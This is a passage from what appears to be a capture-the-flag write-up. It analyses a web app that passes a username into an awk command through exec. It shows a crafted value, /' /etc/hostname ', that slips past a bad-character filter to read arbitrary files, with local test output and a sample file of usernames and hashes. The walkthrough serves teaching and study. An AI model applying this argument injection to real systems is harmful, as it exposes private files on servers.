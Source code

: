```
  })
})

```

It’s using `awk` to get the lines from `/var/www/private/leave_requests.csv` that contain the current username. For example, that syntax applied to the `hashes` file from earlier:

```

oxdf@hacky$ cat hashes 
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
oxdf@hacky$ awk '/chris/' hashes 
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1

```

This would be a very obvious command injection, but the “bad character” check before the call to `awk` makes that impossible.

#### Potential File Read

I can mess around in my terminal to see how I might inject into this `exec` without using the banned characters. With access to `'`, `/`, and space, I can use this to read any file. The string is built as:

```

awk '/[user]/' /var/www/private/leave_requests.csv

```

If I let `[user]` be `/' /etc/hostname '`, that makes:

```

awk '//' /etc/hostname '/' /var/www/private/leave_requests.csv

```

From my local example, it tries to read three files, `/etc/hostname`, `/`, and `hashes`, resulting in two files and a warning:

```

oxdf@hacky$ awk '//' /etc/hostname '/' hashes 
hacky
awk: cmd. line:1: warning: command line argument `/' is a directory: skipped
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e181

```
